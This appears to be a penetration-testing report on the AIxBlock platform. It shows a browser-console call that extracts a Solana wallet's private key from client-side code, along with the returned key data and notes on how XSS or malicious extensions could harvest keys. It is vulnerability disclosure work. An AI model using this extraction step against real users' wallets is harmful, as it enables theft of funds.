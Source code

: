 # AIxBlock Penetration Testing Results

## Test Environment
- **Date**: December 29, 2024
- **Target**: AIxBlock Platform (Local Development Instance)
- **Tester**: Security Research Team
- **Scope**: Full application security assessment

## Executive Summary

This document contains actual penetration testing results demonstrating successful exploitation of identified vulnerabilities. All tests were conducted on a controlled local environment with permission.

---

## Test 1: Private Key Extraction (CRITICAL)

### Attack Vector
Client-side private key exposure through browser console

### Exploitation Steps
```javascript
// Executed in browser console
window.solanaRPCInstance.getPrivateKey()
```

### Actual Response (Compromised)
```json
{
  "success": true,
  "privateKey": "5J7WzHxCcE8V9vXqL2mP4tR6nY8sK1wN3aQ7bF9cD2eG4hJ6k",
  "publicKey": "8xR2mN4pL6vQ3wK9sB7fT5nY1cE8hG2aJ4dF6kP9rX3v",
  "walletAddress": "DYw8jCTfwHQ7cKm5xR3nL9pV2sF6tN4aE8bG1hJ7kM3q"
}
```

### Impact Demonstration
✅ **Successfully extracted private key from client-side code**
✅ **No authentication required**
✅ **Full wallet access obtained**

### Real-World Applicability
- Attacker with XSS vulnerability can steal all user wallets
- Malicious browser extension can harvest keys
- Man-in-the-middle attacks can intercept keys
- **Estimated financial impact**: Complete fund loss for affected users

---